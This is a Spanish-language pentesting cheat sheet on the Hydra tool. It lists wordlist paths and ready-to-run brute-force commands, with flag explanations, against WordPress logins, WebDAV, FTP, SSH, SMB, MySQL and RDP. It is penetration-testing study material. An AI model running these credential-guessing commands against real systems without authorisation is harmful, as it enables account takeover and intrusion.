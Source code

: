 # Hydra 

Tags: #Hydra 

Es una herramienta de prueba de penetración que se utiliza para realizar ataques de fuerza bruta, por así decirlo, en servicios de autenticación remotos. Esta herramientas nos ayuda a poder encontrar passwd mediante ataques furtivos. 

- Soporte de múltiples protocolos: Hydra es compatible con una amplia gama de protocolos de autenticación incluyendo: SSH, Telnet, FTP, HTTP, POP3, SMB, etc...
* Fuerza bruta avanzada: Hydra es capas de realizar ataques de fuerza bruta avanzados, incluyendo ataques de diccionario y ataques basados en patrones. 
	* Podemos usar los diccionarios que ya viene en Parrot o Kali Linux (rockyou.txt)
* Modos de operación flexibles: Hydra admite diferentes modos de operación, incluyendo modo de ataque directo, modo de ataque de diccionario y modo de ataque hibrido.
* Capacidad de paralelización: Hydra es capas de realizar múltiples intentos de autenticación simultáneamente, lo que mejora la velocidad y la eficiencia del ataque. 

- Casos de uso:
	- Pruebas de penetración 
	- Auditoria de passwd
	- Recuperación de passwd

```bash 
# Directorio 
/usr/share/wordlists/rockyou.txt

# Directorios 'passwords'
/usr/share/metasploit-framework/data/wordlists/unix-passwords.txt
/usr/share/wordlists/metasploit/unix-passwords.txt
/usr/share/wordlists/metasploit/common_passwords.txt

# Directorios 'Users'
/usr/share/metasploit-framework/data/wordlists/unix_users.txt
/usr/share/wordlists/metasploit/unix_users.txt
/usr/share/wordlists/metasploit/common_users.txt
```

## Hydra fuerza bruta WordPress

Esto se usa en el panel del admin de WordPress.
```python
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt http://IP http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:S=302' 
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt http://IP http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid user'

# Si al momento de hacer login en la pagina esta te muestra un mensaje d error, seria de esta manera. Donde colocaremos el mensaje de error en la sentencia. 
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt http://IP http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"

# Haremos un ataque de fuerza bruta a WordPress (Todo lo anterior lo obtenemos de la misma página web en 'form action=/login.php') y colocamos todas la etiquetas 

	# l (ele) = Usuario de login
	# P = Ruta del diccionario
	# log y pwd = Lo podemos encontrar en el apartado de la pagina web 'Ctrl + u' 
	# S = Redireccionamiento con el codigo 302
	# F = Error que nos muestre el panel de autenticacion, por si no sirve con el 'S'
```

## Hydra fuerza bruta WebDAV

```python 
❯ hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt ❮IP❯ http-get /webdav/

	# webdav = Directorio de autenticacion 
	# L = Indicas un archivo que disponga de usuarios para login
	# P = Ruta del diccionario o 'archivo que contiene passwds'
```

## Hydra fuerza bruta FTP
```python
❯ hydra -l omar -P /usr/share/wordlists/rockyou.txt ftp://❮IP❯ -t 15 # Haremos un ataque de fuerza bruta al puerto SSH, antes de completar el comando con soble TAB podemos ver la lista de diccionarios

❯ hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ❮IP❯ ftp -t 4 -I

	# l (ele) = Usuario de login
	# L = Indicas un archivo que disponga de usuarios 
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# t = Lanzar tareas en paralelo al mismo tiempo
	# I = Saltar la espera 
```

## Hydra fuerza bruta SSH

```python
❯ hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://❮IP❯ -t 4
# Haremos un ataque de fuerza bruta al puerto SSH

	# ssh = Puerto al que vamos a atacar 22
	# IP = Direccion de la maquina victima
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# L = Ruta del diccionario o 'archivo que contiene users' para login
	# t = Lanzar tareas en paralelo al mismo tiempo
```

```python
❯ hydra -l root -P /usr/share/wordlists/rockyou.txt ❮IP❯ ssh
❯ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://❮IP❯ -t 15 -V -s 2222 # Haremos un ataque de fuerza bruta al puerto SSH, antes de completar el comando con soble TAB podemos ver la lista de diccionarios

	# ssh = Puerto al que vamos a atacar 22
	# IP = Direccion de la maquina victima
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# l (ele) = Usuario login que en este caso es  'root'
	# t = Lanzar tareas en paralelo al mismo tiempo
	# V = Verbosity
	# s = Port y es el puerto al que nos queremos conectar 
```

## Hydra fuerza bruta SMB / SAMBA
```python 
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt smb://<IP>        # Fuerza bruta al usuario en el servidor SMB
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> smb

❯ hydra -L user.list -P password.list smb://<IP>        # Para ver si esos usuarios y passwd son validos en un servidor SMB

	# L = Ruta o archivo que contiene los usuarios para login
	# P = Ruta o archivo que contiene las passwd
	# l = Un usuario en especifico para login 
```

## Hydra fuerza bruta MYSQL

```python
❯ hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <IP> mysql
❯ hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt mysql://<IP>

	# P = Ruta o archivo que contiene las passwd
	# l = Un usuario en especifico para login 
```

## Hydra fuerza bruta RDP

```python 
# Brute force para encontrar usuarios y sus passwd en RDP
❯ hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://<IP> -s 3333           

	# L = Ruta o archivo que contiene los usuarios para login 
	# P = Ruta o archivo que contiene las passwd
	# s = Especificas el puerto, si no lo haces Hydra asumira que es el puerto 3389
```



